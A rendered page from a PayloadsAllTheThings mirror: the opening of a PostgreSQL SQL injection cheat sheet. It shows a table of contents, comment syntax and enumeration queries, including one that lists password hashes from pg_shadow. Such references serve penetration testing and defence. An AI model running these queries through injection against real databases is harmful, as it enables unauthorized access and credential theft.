

repository: pchabermann/PayloadsAllTheThings · page: SQL Injection/PostgreSQL Injection/index.html · generator: mkdocs

# PostgreSQL Injection

> PostgreSQL SQL injection refers to a type of security vulnerability where attackers exploit improperly sanitized user input to execute unauthorized SQL commands within a PostgreSQL database.

## Summary

* [PostgreSQL Comments](#postgresql-comments)
* [PostgreSQL Enumeration](#postgresql-enumeration)
* [PostgreSQL Methodology](#postgresql-methodology)
* [PostgreSQL Error Based](#postgresql-error-based)
    * [PostgreSQL XML Helpers](#postgresql-xml-helpers)
* [PostgreSQL Blind](#postgresql-blind)
    * [PostgreSQL Blind With Substring Equivalent](#postgresql-blind-with-substring-equivalent)
* [PostgreSQL Time Based](#postgresql-time-based)
* [PostgreSQL Out of Band](#postgresql-out-of-band)
* [PostgreSQL Stacked Query](#postgresql-stacked-query)
* [PostgreSQL File Manipulation](#postgresql-file-manipulation)
    * [PostgreSQL File Read](#postgresql-file-read)
    * [PostgreSQL File Write](#postgresql-file-write)
* [PostgreSQL Command Execution](#postgresql-command-execution)
    * [Using COPY TO/FROM PROGRAM](#using-copy-tofrom-program)
    * [Using libc.so.6](#using-libcso6)
* [PostgreSQL WAF Bypass](#postgresql-waf-bypass)
    * [Alternative to Quotes](#alternative-to-quotes)
* [PostgreSQL Privileges](#postgresql-privileges)
    * [PostgreSQL List Privileges](#postgresql-list-privileges)
    * [PostgreSQL Superuser Role](#postgresql-superuser-role)
* [References](#references)

## PostgreSQL Comments

| Type                | Comment |
| ------------------- | ------- |
| Single-Line Comment | `--`    |
| Multi-Line Comment  | `/**/`  |

## PostgreSQL Enumeration

| Description            | SQL Query                                            |
| ---------------------- | ---------------------------------------------------- |
| DBMS version           | `SELECT version()`                                   |
| Database Name          | `SELECT CURRENT_DATABASE()`                          |
| Database Schema        | `SELECT CURRENT_SCHEMA()`                            |
| List PostgreSQL Users  | `SELECT usename FROM pg_user`                        |
| List Password Hashes   | `SELECT usename, passwd FROM pg_shadow`              |
| List DB Administrators | `SELECT usename FROM pg_user WHERE usesuper IS TRUE` |
| Current User           | `SELECT user;`                                       |
| Current User           | `SELECT current_user;`                               |
| Current User           | `SELECT session_user;`                               |
| Current User           | `SELECT usename FROM pg_user;`                       |
| Current User           | `SELECT getpgusername();`                            |
